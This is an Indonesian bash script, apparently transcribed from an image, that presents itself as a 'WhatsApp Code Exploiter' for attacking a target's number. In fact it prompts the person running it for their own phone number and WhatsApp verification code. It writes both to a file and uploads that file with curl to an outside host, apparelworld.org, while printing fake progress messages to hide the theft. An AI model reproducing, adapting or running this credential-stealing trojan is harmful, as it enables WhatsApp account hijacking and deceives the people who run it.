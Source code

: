  #!/bin/bash
clear
echo "
<-- IndoSec -->
####################
#   Whatsapp Code  # By ./C3W3KBerB4T4n9
#     Exploiter    # Pakdheprimbon@gmail.com
####################

Copyright (c) 2018 ceweberbatang Ganteng";
echo "";
read -p "Nomer Kamu (+62xxxx)=> " nomer;
read -p "Nomer Target (+62xxxx) => " target;
sleep 2
echo "[+] Syncing Target...";
sleep 1
echo "Login  => $nomer";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Exploiting...";
echo "Nomer => $nomer" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5;
echo "[+] Done.";
echo "Tunggu 5-10 Menit Untuk Mendapatkan Code.";
read -p "Verify Code => " code;
sleep 2
echo "[+] Connecting to whatsapp.com...";
echo "Login => $nomer";
sleep 0.5
echo "Code => $code";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Sending Exploit...";
echo "Code => $code" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5
echo "[+] Success Exploited!";
exit;
